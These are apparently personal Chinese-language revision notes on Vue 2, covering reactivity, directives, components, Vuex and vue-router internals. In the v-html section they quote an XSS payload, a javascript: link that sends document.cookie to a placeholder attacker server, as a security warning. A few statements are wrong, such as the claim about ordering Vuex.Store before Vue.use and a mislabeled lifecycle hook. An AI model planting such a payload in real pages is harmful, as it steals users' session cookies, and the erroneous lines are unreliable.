

# vue 全面复习

## vue 核心

### Vue 一级属性

$el：原生DOM结构，需要备份一份，原因是当diff算法算出来未改变时，需要直接拿原生dom，就是从$el 中拿

在 vm 上绑定的事件，即使 vm 被销毁了，原生事件也不会被移除。只有自定义事件会被移除。

### 概念

一旦 data 中的数据发生改变，那么页面中用到该数据的地方也会自动更新。注意，其核心和原理是 data 中的数据改变。
写代码时，一般是直接改变 vue 实例上的属性，整个过程是这样的。
vm.x = 2; vue 初始化时将 data 对象赋值给 vm.\_data。然后对 vm.\_data 进行数据代理。当访问 vm.x 时，利用 getter 从\_data 中拿，
然后 vm.x=2 赋值时，利用 setter 设置 vm.\_data.x 的值为 2。整个取值和设值的过程就是如此了。

vm.\_data 和 data 是全等的，说明他们的地址是同一个，但是 vm.\_data 在被赋值后对其上面的属性同样做了别的处理，就是同样设置了 getter 和 setter。当 setter 时重新渲染模板。

1.el 有 2 种写法
(1).new Vue 时候配置 el 属性。
(2).先创建 Vue 实例，随后再通过 vm.\$mount('#root')指定 el 的值。

### 指令

v-model 数据绑定：
双向绑定一般都应用在表单类元素上（如：input、select 等）
v-model:value 可以简写为 v-model，因为 v-model 默认收集的就是 value 值。

### MVVM 模型

```
		<!--
			MVVM模型
						1. M：模型(Model) ：data中的数据
						2. V：视图(View) ：模板代码
						3. VM：视图模型(ViewModel)：Vue实例
			观察发现：
						1.data中所有的属性，最后都出现在了vm身上。
						2.vm身上所有的属性 及 Vue原型上所有属性，在Vue模板中都可以直接使用。
		-->
```

M(model) 模型和 V(View)视图，vm 视图模型就是将两者进行一关联。主要是以模型驱动视图，而小部分情况比如 v-model 时，又是通过视图去更改模型。

### 数据代理

数据代理：通过一个对象代理对另一个对象中属性的操作（读/写）
在 vue 中：通过 vm 对象来代理 data 对象中属性的操作（读/写），其作用是更加方便的操作 data 中的数据。
否则就要写 vm.\_data.x,每次都要这么写就不太方便。
基本原理：通过 Object.defineProperty()把 data 对象中所有属性添加到 vm 上。
为每一个添加到 vm 上的属性，都指定一个 getter/setter。
在 getter/setter 内部去操作（读/写）data 中对应的属性。

```
			Object.defineProperty(person,'age',{
				// value:18,
				// enumerable:true, //控制属性是否可以枚举，默认值是false
				// writable:true, //控制属性是否可以被修改，默认值是false
				// configurable:true //控制属性是否可以被删除，默认值是false

				//当有人读取person的age属性时，get函数(getter)就会被调用，且返回值就是age的值
				get(){
					console.log('有人读取age属性了')
					return number
				},

				//当有人修改person的age属性时，set函数(setter)就会被调用，且会收到修改的具体值
				set(value){
					console.log('有人修改了age属性，且值是',value)
					number = value
				}

			})
```

### 事件处理

#### Vue 中的事件修饰符：

1. prevent：阻止默认事件（常用） 对应 event.preventDefault()；
2. stop：阻止事件冒泡（常用） 对应 event.stopPropagation()；
3. once：事件只触发一次（常用）；
4. capture：使用事件的捕获模式，默认是冒泡模式；
5. self：只有 event.target 是当前操作的元素时才触发事件；
6. passive：事件的默认行为立即执行，无需等待事件回调执行完毕；

watch 和 computed 都能实现时一般都用 computed，但是有时候不得不用 watch，比如说需要使用 oldValue，比如说需要使用深度监听等等。computed 还有一个限制就是 computed 的值完全依赖于 return 值，而有时候 return 值不好返回，比如说延迟输出，这种情况就不行了。

```
        computed:{
            test(){
                setTimeout(() => {
                   return 100
                }, 100);
            }
        }
```

#### 键盘事件

1.Vue 中常用的按键别名：
回车 => enter
删除 => delete (捕获“删除”和“退格”键)
退出 => esc
空格 => space
换行 => tab (特殊，必须配合 keydown 去使用)
上 => up
下 => down
左 => left
右 => right

2.Vue 未提供别名的按键，可以使用按键原始的 key 值去绑定，但注意要转为 kebab-case（短横线命名）

3.系统修饰键（用法特殊）：ctrl、alt、shift、meta
(1).配合 keyup 使用：按下修饰键的同时，再按下其他键，随后释放其他键，事件才被触发。
(2).配合 keydown 使用：正常触发事件。

4.也可以使用 keyCode 去指定具体的按键（不推荐）

5.Vue.config.keyCodes.自定义键名 = 键码，可以去定制按键别名（不常用）

### 计算属性

原理：底层借助了 Objcet.defineproperty 方法提供的 getter 和 setter。
优点：与 methods 实现相比，内部有缓存机制（复用），效率更高，调试方便。
data 中的数据发生改变，模板就会被重新解析。如果模板中有方法，方法就一定会被重新调用，如果是 computed，只要依赖不改变，就会从缓存中取，而不是重新计算。

### 监视属性

监视的两种写法：
(1) new Vue 时传入 watch 配置
(2) 通过 vm.\$watch 监视

深度监视：
(1) Vue 中的 watch 默认不监测对象内部值的改变（一层）,Vue 自身可以监测对象内部值的改变，但 Vue 提供的 watch 默认不可以！。
(2) 配置 deep:true 可以监测对象内部值改变（多层）。

1. computed 能完成的功能，watch 都可以完成。
2. watch 能完成的功能，computed 不一定能完成，例如：watch 可以进行异步操作。其根本原因是因为 computed 完全依赖返回值，而有时候返回值没法立即得到。所以说原则就是能用 computed 就用 computed，computed 没法解决时或解决不优雅时考虑使用 watch。

两个推荐的小原则：

1. 所有被 Vue 管理的函数（例如声明周期函数，定义在 methods 里的函数等等），最好写成普通函数，这样 this 的指向才是 vm 或 组件实例对象。
2. 所有不被 Vue 所管理的函数（定时器的回调函数、ajax 的回调函数等、Promise 的回调函数），最好写成箭头函数，
   这样 this 的指向才是 vm 或 组件实例对象。

### style 和 class 绑定总结

1. class 样式
   :class="xxx" xxx 可以是字符串、对象、数组。

-   字符串写法适用于：类名不确定，要动态获取。
-   对象写法适用于： 要绑定多个样式，个数确定，名字也确定，但不确定用不用。
-   数组写法适用于：要绑定多个样式，个数不确定，名字也不确定。

2. style 样式
   :style="{fontSize: xxx}"其中 xxx 是动态值。（常用）
   :style="[a,b]"其中 a、b 是样式对象。

# 可以使用 template 与 v-if 配合使用，减少 dom 结构，但注意不能和 v-show 一起使用。

当切换频率很高时，建议使用 v-show，提高效率。
使用 v-if 的时，元素可能无法获取到，而使用 v-show 一定可以获取到

### 列表渲染 （v-for 指令）

#### v-for 可遍历：数组（最常用）、对象、字符串（用的很少）、指定次数（用的很少）

#### 面试题：react、vue 中的 key 有什么作用？（key 的内部原理）

1.  虚拟 DOM 中 key 的作用：
    key 是虚拟 DOM 对象的标识，当数据发生变化时，Vue 会根据【新数据】生成【新的虚拟 DOM】,
    随后 Vue 进行【新虚拟 DOM】与【旧虚拟 DOM】的差异比较，比较规则如下：
2.  对比规则：
    (1).旧虚拟 DOM 中找到了与新虚拟 DOM 相同的 key：
    ①.若虚拟 DOM 中内容没变, 直接使用之前的真实 DOM！
    ②.若虚拟 DOM 中内容变了, 则生成新的真实 DOM，随后替换掉页面中之前的真实 DOM。

        (2).旧虚拟DOM中未找到与新虚拟DOM相同的key
        	创建新的真实DOM，随后渲染到到页面。

3)  用 index 作为 key 可能会引发的问题： 1. 若对数据进行：逆序添加、逆序删除等破坏顺序操作:
    会产生没有必要的真实 DOM 更新 ==> 界面效果没问题, 但效率低。

        2. 如果结构中还包含输入类的DOM：
            会产生错误DOM更新 ==> 界面有问题。

4)  开发中如何选择 key?: 1.最好使用每条数据的唯一标识作为 key, 比如 id、手机号、身份证号、学号等唯一值。 2.如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅用于渲染列表用于展示，使用 index 作为 key 是没有问题的。

#### 响应式原理

    		Vue监视数据的原理：
    			1. vue会监视data中所有层次的数据，就是对对象和数组进行了递归监听。

    			2. 如何监测对象中的数据？
    							通过setter实现监视，且要在new Vue时就传入要监测的数据，原因是初始化的数据vue才会做响应式处理。
    								(1).对象中后追加的属性，Vue默认不做响应式处理
    								(2).如需给后添加的属性做响应式，请使用如下API：
    												Vue.set(target，propertyName/index，value) 或
    												vm.$set(target，propertyName/index，value)

    			3. 如何监测数组中的数据？
                                    vue整理了能够引起数组变化的原生方法，然后重新封装了这些方法，一旦vue实例中的数据调用了这个方法，vue就能够检测到，重新解析模板，更新页面。
                                    所以vue修改数组必须调用如下方法：
    						            1.使用这些API:push()、pop()、shift()、unshift()、splice()、sort()、reverse()
    						            2.Vue.set() 或 vm.$set()

    			特别注意：Vue.set() 和 vm.$set() 不能给vm 或 vm的根数据对象 添加属性！！！
                数据劫持：vm将data中定义的所有数据，进行了getter和setter。一旦你要去动data中的数据，必须先经过vm，vm是知晓的，这就叫劫持。

### 过滤器

过滤器本质上就是一个函数
过滤器相对来说比较鸡肋，不用完全没有问题，vue3 移除了 filter，全局的过滤器有些场景下还是会增加方便性。
定义：对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑的处理）。
语法： 1.注册过滤器：Vue.filter(name,callback) 或 new Vue{filters:{}} 2.使用过滤器：{{ xxx | 过滤器名}} 或 v-bind:属性 = "xxx | 过滤器名"
备注： 1.过滤器也可以接收额外参数、多个过滤器也可以串联 2.并没有改变原本的数据, 是产生新的对应的数据

### 内置指令

#### v-model

    	<!--
    		收集表单数据：
    				若：<input type="text"/>，则v-model收集的是value值，用户输入的就是value值。
    				若：<input type="radio"/>，则v-model收集的是value值，且要给标签配置value值。
    				若：<input type="checkbox"/>
    						1.没有配置input的value属性，那么收集的就是checked（勾选 or 未勾选，是布尔值）
    						2.配置input的value属性:
    								(1)v-model的初始值是非数组，那么收集的就是checked（勾选 or 未勾选，是布尔值）
    								(2)v-model的初始值是数组，那么收集的的就是value组成的数组
    				备注：v-model的三个修饰符：
    								lazy：失去焦点再收集数据
    								number：输入字符串转为有效的数字
    								trim：输入首尾空格过滤
    	-->

#### v-html

    					1.作用：向指定节点中渲染包含html结构的内容。
    					2.与插值语法（或者v-text）的区别：
    								(1).v-html会替换掉节点中所有的内容，{{xx}}则不会。
    								(2).v-html可以识别html结构。
    					3.严重注意：v-html有安全性问题！！！！
    								(1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
    								(2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上，因为用户可能会写如下代码！
                                    <a href=javascript:location.href="坏人的服务器?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>
                                    一旦你将用户写的这个代码以v-html的形式插入，如果网站上有其他人点击了，就会造成cookie的全部泄露

#### v-cloak

v-cloak 指令（没有值）

1.  本质是一个特殊属性，Vue 实例创建完毕并接管容器后，会删掉 v-cloak 属性。
2.  使用 css 配合 v-cloak 可以解决网速慢时页面展示出{{xxx}}的问题。

#### v-once

v-once 指令：

1. v-once 所在节点在初次动态渲染后，就视为静态内容了。
2. 以后数据的改变不会引起 v-once 所在结构的更新，可以用于优化性能。

#### v-once

这玩意一般不会用，静态内容要是都加上 v-pre 有点麻烦
v-pre 指令：

1. 跳过其所在节点的编译过程。
2. 可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。

### 自定义指令

可采用简写，将指令定义成一个函数，此时相当于只有声明周期 bind 和 update，合并了这两个钩子。
二、配置对象中常用的 3 个回调：
(1).bind：指令与元素成功绑定时调用。
(2).inserted：指令所在元素被插入页面时调用。
(3).update：指令所在模板结构被重新解析时调用。

三、备注：  
 1.指令定义时不加 v-，但使用时要加 v-；  
 2.指令名如果是多个单词，要使用 kebab-case 命名方式，不要用 camelCase 命名。

### 生命周期

1.又名：生命周期回调函数、生命周期函数、生命周期钩子。 2.是什么：Vue 在关键时刻帮我们调用的一些特殊名称的函数。 3.生命周期函数的名字不可更改，但函数的具体内容是程序员根据需求编写的。 4.生命周期函数中的 this 指向是 vm 或 组件实例对象。

-   beforeCreate: 创建之前指的不是 vue 实例，vue 实例再次已经创建，应该说是数据监测和数据代理创建前。 初始化阶段，做的是一些 Vue 自身的初始化，比如生命周期函数注册，事件修饰符注册等等，但数据代理还未开始，即 data 中的数据还未挂到 vm 实例上。
-   create: 还是在初始化，这个初始化就和传入实例对象的参数有关了，数据监测和数据代理已经实现。可以通过 vue 实例访问定义的数据和方法。
-   beforeMount: 在 create 和 beforeMount 阶段，解析模板，生成虚拟 DOM，此时还保存在内存中，页面还不会显示解析好的内容。在此阶段如果你对 dom 进行任何操作，最终都会 Vue 在 mounted 阶段生成的真实 dom 覆盖。
-   mounted:

-   beforeCreate: 可以访问到数据和方法，但是对数据的改动不会触发视图更新了，原因是马上进入销毁程序，来不及更新了

        		常用的生命周期钩子：
        				1.mounted: 发送ajax请求、启动定时器、绑定自定义事件、订阅消息等【初始化操作】。
        				2.beforeDestroy: 清除定时器、解绑自定义事件、取消订阅消息等【收尾工作】。

        		关于销毁Vue实例
        				1.销毁后借助Vue开发者工具看不到任何信息。
        				2.销毁后自定义事件会失效，但原生DOM事件依然有效，通过vue绑定的@click并没有被清除。
        				3.一般不会在beforeDestroy操作数据，因为即便操作数据，也不会再触发更新流程了。

### 组件

一、如何定义一个组件？
使用 Vue.extend(options)创建，其中 options 和 new Vue(options)时传入的那个 optio 样，但也有点区别；
区别如下：
1.el 不要写，为什么？ ——— 最终所有的组件都要经过一个 vm 的管理，由 vm 中的 el 个容器。
2.data 必须写成函数，为什么？ ———— 避免组件被复用时，数据存在引用关系。
备注：使用 template 可以配置组件结构。

#### Vue.extend

Vue.extend 是可以省略的，也就是说在注册时，你可以直接丢一个对象给 components 属性，如下所示，这种形式实际是 Vue 底层帮你调用了 Vue.extend。也就是所传入 components 的数据，Vue 会做判断，如果判断是一个未调用过 Vue.extend 的对象，就自动帮你调用一下 Vue.extend。 Vue.extend 的返回值是一个 VueComponent 的构造函数。
这里又要说下了，为啥 Vue.extend 返回一个构造函数，原因是组件这个对象并不是在注册时生成，而是在页面上或者其他地方被调用时生成，调用时 VueComponent 返回的构造函数创造出一个组件实例。

```
components:{
	template:`
		<div>
			<h2>学生姓名：{{studentName}}</h2>
			<h2>学生年龄：{{age}}</h2>
		</div>`,
	data(){
		return {
			studentName:'张三',
				age:18
			}
		},
}
```

#### 几个注意点：

1.关于组件名:
多个单词组成：
第一种写法(kebab-case 命名)：my-school
第二种写法(CamelCase 命名)：MySchool (需要 Vue 脚手架支持)
备注：
(1).组件名尽可能回避 HTML 中已有的元素名称，例如：h2、H2 都不行。
(2).可以使用 name 配置项指定组件在开发者工具中呈现的名字。

2.关于组件标签:
第一种写法：<school></school>
第二种写法：<school/>
备注：不用使用脚手架时，<school/>会导致后续组件不能渲染。

3.一个简写方式：
const school = Vue.extend(options) 可简写为：const school = options

### VueComponent：

    1.子组件本质是一个名为VueComponent的构造函数，且不是程序员定义的，是Vue.extend生成的。

    2.我们只需要写<school/>或<school></school>，Vue解析时会帮我们创建school组件的实例对象，
    即Vue帮我们执行的：new VueComponent(options)。

    3.特别注意：每次调用Vue.extend，返回的都是一个全新的VueComponent！！！！

    4.关于this指向：
    	(1).组件配置中：
    		data函数、methods中的函数、watch中的函数、computed中的函数 它们的this均是【VueComponent实例对象】。
    	(2).new Vue(options)配置中：
    		data函数、methods中的函数、watch中的函数、computed中的函数 它们的this均是【Vue实例对象】。

    5.VueComponent的实例对象，以后简称vc（也可称之为：组件实例对象）。
    	Vue的实例对象，以后简称vm。


    			1.一个重要的内置关系：VueComponent.prototype.__proto__ === Vue.prototype
    			也就是说vc的原型的原型 就是 vm的原型，即Vue。这样设计vc就可以访问Vue上的属性和方法
    			2.为什么要有这个关系：让组件实例对象（vc）可以访问到 Vue原型上的属性、方法。

## 脚手架

关于不同版本的 Vue：
1.vue.js 与 vue.runtime.xxx.js 的区别：
(1).vue.js 是完整版的 Vue，包含：核心功能+模板解析器。
(2).vue.runtime.xxx.js 是运行版的 Vue，只包含：核心功能；没有模板解析器，所以组件选项中无法写 template。开发环境下，我们使用的就是 vue.runtime.esm.js，只能使用 render 函数渲染，所谓 esm 就是 es6 的 module 模块。

    	2.因为vue.runtime.xxx.js没有模板解析器，所以不能使用template配置项，需要使用
    		render函数接收到的createElement函数去指定具体内容。

### ref

1. 被用来给元素或子组件注册引用信息（id 的替代者）
2. 应用在 html 标签上获取的是真实 DOM 元素，应用在组件标签上是组件实例对象（vc）,ref 和 id 就是在应用组件标签时有差异。

### props

完整属性：限制类型(type)、限制必要性(required)、指定默认值(default)、自定义验证函数（validator）

### 插件

增强 Vue 的功能
本质是一个对象，里面需要有一个 install 方法，vue 会自动帮你调用这个方法，install 方法接收到的第一个参数就是 Vue，第二个参数才是外部传入的参数。
使用插件。 Vue.use(plugins)

在 vue 插件中一般做哪些事情呢？

1. 注册一些全局的东西，如全局组件、全局过滤器等等。如 elementUi，使用插件注册了全局组件。
2. 在 Vue 原型上添加一些属性和方法。

## 通信

1. 父组件 ==> 子组件 通信

2. 子组件 ==> 父组件 通信（要求父先给子一个函数）

### 组件的自定义事件

下面这种形式，是给 test 组件的实例 vc 绑定了一个自定义事件，和绑定一个 click 类似。只不过 click 事件最终是浏览器帮你触发。但是自定义事件需要自己在适当的时机触发。即在 test 时机触发。

和自定义事件类似的是通过父组件传递一个函数给子组件，然后子组件中调用该函数。它在某些场景下可能有大作用，比如说孙子组件、甚至更深层级的后代。利用 inject+函数传递。就可以实现多层级直接出发事件。如果使用自定义事件则需要传好几层。

```
// 父组件
<test @show="alert(1)" ref="test"><test/>

//和上面的形式类似，但是更灵活，不过一般来说我们使用上面的形式。
this.$refs.test.$on("show",()=>{
	alert(1)
})
```

```
//子组件

// 注册并且触发test事件，触发的意思就是调用了该函数，所以内部this一般来说就是子组件
this.$emit("test")

```

解绑自定义事件

```
// 解绑当个事件
this.$off('atguigu')
// 解绑多个事件
this.$off(['atguigu','test'])
// 解绑所有事件
this.$off()
```

beforeDestroy 时会自动帮你去除所有的自定义事件，所以一般来说自定义事件不需要手动清除。
但是原生事件，vue 实例销毁后不会自动帮你清除，但是如果路由换了，整个 dom 都被移除，绑定在 dom 上的事件也没有了。
在实际开发过程中，vue 实例的销毁基本都是依赖于 v-if 或者路由切换，这种情况下绑定的事件是不会继续存在的。

## 全局事件总线

首先 Vue 的原型上是具有$on和$emit。绑定自定义时间和触发自定义事件。 所以组件 vc 和 Vue 实例 vm 上也具有$on和$emit，平常我们在组件上写的自定义事件，其实就是利用了$on和$emit。注册并且触发自定义事件，以及在父组件中绑定自定义事件。

而全局事件总线，说白了就是有一个全局性的对象，实现了$on和$emit。在 vue 中自然而然想到了 Vue 实例 vm。所以只要给 Vue 原型上绑定一个 vm，该 vm 实际上就是一个傀儡对象，也可以是一个 vc。所以要使用全局事件总线，需要先安装。如下所示

```
//创建vm
new Vue({
	el:'#app',
	render: h => h(App),
	beforeCreate() {
		Vue.prototype.$bus = this //安装全局事件总线
	},
})
```

## \$nextTick

1. 语法：`this.$nextTick(回调函数)`
2. 作用：在下一次 DOM 更新结束后执行其指定的回调。
3. 什么时候用：当改变数据后，要基于更新后的新 DOM 进行某些操作时，要在 nextTick 所指定的回调函数中执行。

## Vue 封装的过度与动画

1. 作用：在插入、更新或移除 DOM 元素时，在合适的时候给元素添加样式类名。

2. 图示：
   

3. 写法：

    1. 准备好样式：

        - 元素进入的样式：
            1. v-enter：进入的起点
            2. v-enter-active：进入过程中
            3. v-enter-to：进入的终点
        - 元素离开的样式：
            1. v-leave：离开的起点
            2. v-leave-active：离开过程中
            3. v-leave-to：离开的终点

    2. 使用`<transition>`包裹要过度的元素，并配置 name 属性：

        ```vue
        <transition name="hello">
        	<h1 v-show="isShow">你好啊！</h1>
        </transition>
        ```

    3. 备注：若有多个元素需要过度，则需要使用：`<transition-group>`，且每个元素都要指定`key`值。

可以借助 animate + swiper 添加一些酷炫的动画效果，可以考虑在 Vue 中封装成组件，这个可以玩下

### vuex

#### 搭建 vuex 环境

注意： new Vuex.Store 必须再 Vue.use(vuex)之前，否则会报错。

1. 创建文件：`src/store/index.js`

    ```js
    //引入Vue核心库
    import Vue from "vue";
    //引入Vuex
    import Vuex from "vuex";
    //应用Vuex插件
    Vue.use(Vuex);

    //准备actions对象——响应组件中用户的动作
    const actions = {};
    //准备mutations对象——修改state中的数据
    const mutations = {};
    //准备state对象——保存具体的数据
    const state = {};

    //创建并暴露store
    export default new Vuex.Store({
        actions,
        mutations,
        state,
    });
    ```

    vuex 中业务逻辑最好全部写在 actions 中，commits 中直接修改 state，尽量保证最简单的修改逻辑。
    actions 的第一个回调函数为 context，就是一个小型版的 store，而并单纯是 commit。 这样设计的原因是满足 actions 中复杂的逻辑。比如需要在一个 action 中调用另外一个 action。
    直接在 Vue 中或者 actions 里修改 state，会产生什么问题？ 数据修改和视图更新都没有问题，产生的问题一，devTools 失效，因为 devTools 是监听 mutations。第二直接修改 state，会让我们查找修改 state 中的数据源头变得困难，否则我们只需要搜索 mutations 方法即可。
    vue 的 devtool 只关注 mutations，不关注 actions，因为它只关心 state 什么时候被改变

#### map 函数

mapStates 和 MapGetters 需要在 computed 里展开， 该辅助函数传入的参数为对象或者数组，传入对象或者数组的作用是两个，第一你需要去 state 找哪个变量，第二你想要绑定在该组件自身实例上的 computed 的变量名是啥。 这两者每个变量独有的，必须告诉该辅助函数。
传入后 return 的是一个对象，对象名就是传入的对象 key 值或者数组值，对象值是一个函数，就像 computed 里的 get 函数一样，该函数内容其实就类似 return this.\$store.state.x 调用 computed 变量时就调用了该函数。

mapMutations 需要在 methods 里展开，它的一个注意点是如果需要传参，需要直接放在方法后面传参。
辅助函数生成的 commit 函数，认为在方法里的参数就是你的传参。 如果不写一般变成传入事件对象了

```
this.$store.commit("test",this.a)

methods:{
	...mapMutations(["test"])
}
mounted(){
	this.test(this.a)
}
```

#### vuex 模块化和命名空间 & 严格模式

默认情况下，模块内部的 action、mutation 和 getter 是注册在全局命名空间的——这样使得多个模块能够对同一 mutation 或 action 作出响应。

当采用模块化后，是否启用命名空间的读取方式是不同的，默认 nameSpaced:false。

3. 开启命名空间后，组件中读取 state 数据：

    ```js
    //方式一：自己直接读取
    this.$store.state.personAbout.list
    //方式二：借助mapState读取：
    ...mapState('countAbout',['sum','school','subject']),
    ```

4. 开启命名空间后，组件中读取 getters 数据：

    ```js
    //方式一：自己直接读取
    this.$store.getters['personAbout/firstPersonName']
    //方式二：借助mapGetters读取：
    ...mapGetters('countAbout',['bigSum'])
    ```

5. 开启命名空间后，组件中调用 dispatch

    ```js
    //方式一：自己直接dispatch
    this.$store.dispatch('personAbout/addPersonWang',person)
    //方式二：借助mapActions：
    ...mapActions('countAbout',{incrementOdd:'jiaOdd',incrementWait:'jiaWait'})
    ```

### 路由

1. 理解： 一个路由（route）就是一组映射关系（key - value），多个路由需要路由器（router）进行管理。
2. 前端路由：key 是路径，value 是组件。

3. 跳转（要写完整路径或者使用 name）

    ```vue
    <router-link to="/home/news">News</router-link>
    ```

#### 路由的 query 参数

```vue
<!-- 跳转并携带query参数，to的字符串写法 -->
<router-link :to="/home/message/detail?id=666&title=你好">跳转</router-link>

<!-- 跳转并携带query参数，to的对象写法 -->
<router-link
    :to="{
        path: '/home/message/detail',
        query: {
            id: 666,
            title: '你好',
        },
    }">跳转</router-link>

<!--简化后，直接通过名字跳转 -->
<router-link :to="{ name: 'hello' }">跳转</router-link>

<!--简化写法配合传递参数 -->
<router-link
    :to="{
        name: 'hello',
        query: {
            id: 666,
            title: '你好',
        },
    }">跳转</router-link>
```

2. 接收参数：

    ```js
    $route.query.id;
    $route.query.title;
    ```

#### 路由的 params 参数

```
   				{
   					name:'xiangqing',
   					path:'detail/:id/:title', //使用占位符声明接收params参数
   					component:Detail
   				}
```

```
//vue

<!-- 跳转并携带params参数，to的字符串写法 -->
<router-link :to="/home/aeegmss/detail/666/你好">跳转</router-link>

<!-- 跳转并携带params参数，to的对象写法 -->
<router-link
    :to="{
        name: 'xiangqing',
        params: {
            id: 666,
            title: '你好',
        },
    }">跳转</router-link>
```

特别注意：路由携带 params 参数时，若使用 to 的对象写法，则不能使用 path 配置项，必须使用 name 配置！
不使用占位符时如果也用 params 传参，参数也可以传递过去，但是刷新后就没有了。所以一般来说要使用 params 传参就用动态路由的方式

#### 路由的 props 配置

​ 作用：让路由组件更方便的收到参数

```js
{
	name:'xiangqing',
	path:'detail/:id',
	component:Detail,

	//第一种写法：props值为对象，该对象中所有的key-value的组合最终都会通过props传给Detail组件
	// props:{a:900}

	//第二种写法：props值为布尔值，布尔值为true，则把路由收到的所有params参数通过props传给Detail组件
	// props:true

	//第三种写法：props值为函数，该函数返回的对象中每一组key-value都会通过props传给Detail组件
	props(route){
		return {
			id:route.query.id,
			title:route.query.title
		}
	}
}
```

### `<router-link>`的 replace 属性

1. 作用：控制路由跳转时操作浏览器历史记录的模式
2. 浏览器的历史记录有两种写入方式：分别为`push`和`replace`，`push`是追加历史记录，`replace`是替换当前记录。路由跳转时候默认为`push`
3. 如何开启`replace`模式：`<router-link replace .......>News</router-link>`

#### 编程式路由导航

1. 作用：不借助`<router-link>`实现路由跳转，让路由跳转更加灵活

2. 具体编码：

    ```js
    //$router的两个API
    this.$router.push({
        name: "xiangqing",
        params: {
            id: xxx,
            title: xxx,
        },
    });

    this.$router.replace({
        name: "xiangqing",
        params: {
            id: xxx,
            title: xxx,
        },
    });
    this.$router.forward(); //前进
    this.$router.back(); //后退
    this.$router.go(); //可前进也可后退
    ```

#### 10.缓存路由组件

1. 作用：让不展示的路由组件保持挂载，不被销毁。

2. 具体编码：

    ```vue
    <keep-alive include="News"> 
        <router-view></router-view>
    </keep-alive>
    ```

    include 多个时可以使用数组

#### 11.两个新的生命周期钩子

3. 作用：路由组件所独有的两个钩子，用于捕获路由组件的激活状态。
4. 具体名字：
    1. `activated`路由组件被激活时触发。
    2. `deactivated`路由组件失活时触发。

使用场景：当路由缓存时，如果离开当前路由，组件是不被销毁的，所以也就不走 mounted 和 destroyed 钩子函数，但是会触发
activated 和 deactivated 钩子函数。

#### 13.路由器的两种工作模式

1. 对于一个 url 来说，什么是 hash 值？—— #及其后面的内容就是 hash 值。
2. hash 值不会包含在 HTTP 请求中，即：hash 值不会带给服务器。
3. 可以为 hash 的改变添加监听事件：

```
window.addEventListener("hashchange", funcRef, false)
```

4. 每一次改变 hash（window.location.hash），都会在浏览器的访问历史中增加一个记录

利用 hash 的以上特点，就可以来实现前端路由“更新视图但不重新请求页面”的功能了。

3. hash 模式：
    1. 地址中永远带着#号，不美观 。
    2. 若以后将地址通过第三方手机 app 分享，若 app 校验严格，则地址会被标记为不合法。
    3. 兼容性较好。
4. history 模式：
    1. 地址干净，美观 。
    2. 兼容性和 hash 模式相比略差。
    3. 应用部署上线时需要后端人员支持，解决刷新页面服务端 404 的问题。

#### 实现原理

##### hash 模式

1. push 方法：window.location.hash = route.fullPath --hash 的改变会自动添加到浏览器的访问历史记录中

从设置路由到更新视图的流程如下：

```
$router.push() --> HashHistory.push() --> History.transitionTo() --> History.updateRoute() --> {app._route = route} --> vm.render()

```

1 \$router.push() //调用方法

2 HashHistory.push() //根据 hash 模式调用,设置 hash 并添加到浏览器历史记录（添加到栈顶）（window.location.hash= XXX）

3 History.transitionTo() //监测更新，更新则调用 History.updateRoute()

4 History.updateRoute() //更新路由

5 {app.\_route= route} //替换当前 app 路由

6 vm.render() //更新视图

<!-- HashHistory.push -->

```
push (location: RawLocation, onComplete?: Function, onAbort?: Function) {
    this.transitionTo(location, route => {
      pushHash(route.fullPath)
      onComplete && onComplete(route)
    }, onAbort)
  }

function pushHash (path) {
    window.location.hash = path
}
```

<!-- transitionTo部分,transitionTo()方法是父类中定义的是用来处理路由变化中的基础逻辑的 -->

```
transitionTo (location: RawLocation, onComplete?: Function, onAbort?: Function) {
  const route = this.router.match(location, this.current)
  this.confirmTransition(route, () => {
    this.updateRoute(route)
    ...
  })
}

updateRoute (route: Route) {

  this.cb && this.cb(route)

}

listen (cb: Function) {
  this.cb = cb
}

```

Vue.mixin()方法，全局注册一个混合，影响注册之后所有创建的每个 Vue 实例，该混合在 beforeCreate 钩子中通过 Vue.util.defineReactive()定义了响应式的\_route 属性。所谓响应式属性，即当\_route 值改变时，会自动调用 Vue 实例的 render()方法，更新视图。

2. replace 方法：
   它的流程和 push 基本相同，唯一的差别是浏览器地址的改变不是通过 window.location.hash 来改变的。
   而是调用了 location 的 replace 方法，这样浏览器就不会记录本次路由变化

```
function replaceHash (path) {
  const i = window.location.href.indexOf('#')
  window.location.replace(
    window.location.href.slice(0, i >= 0 ? i : 0) + '#' + path
  )
}
```

3. 监听地址栏

```
setupListeners () {
  window.addEventListener('hashchange', () => {
    if (!ensureSlash()) {
      return
    }
    this.transitionTo(getHash(), route => {
      replaceHash(route.fullPath)
    })
  })
}
```

该方法设置监听了浏览器事件 hashchange，调用的函数为 replaceHash，即在浏览器地址栏中直接输入路由相当于代码调用了 replace()方法
但是比较奇怪的一点是，它呈现出来的效果和 replace 不同，如果是 replace，地址栏应该不能返回，但是你再地址栏中输入路由，趋势可以返回回去的。

##### history 模式

借助 HTML5 提供的两个新方法：pushState(), replaceState()。这两个方法可以对了浏览器历史栈进行修改，但浏览器不会发送请求该 URL，即页面不跳转。这就为单页应用前端路由“更新视图但不重新请求页面”提供了基础。

当然要使用这个模式，浏览器就必须支持 HTML5。

```
<!--
stateObject: 当浏览器跳转到新的状态时，将触发popState事件，该事件将携带这个stateObject参数的副本
title: 所添加记录的标题(当前很多浏览器都已忽略这个参数，填空即可)
URL: 所添加记录的URL
 -->
window.history.pushState(stateObject, title, URL)
window.history.replaceState(stateObject, title, URL
```

-   监听：history 模式的地址栏 url 监听，借助了 popstate 事件，传值过来的对象保存在 event.state 中

```
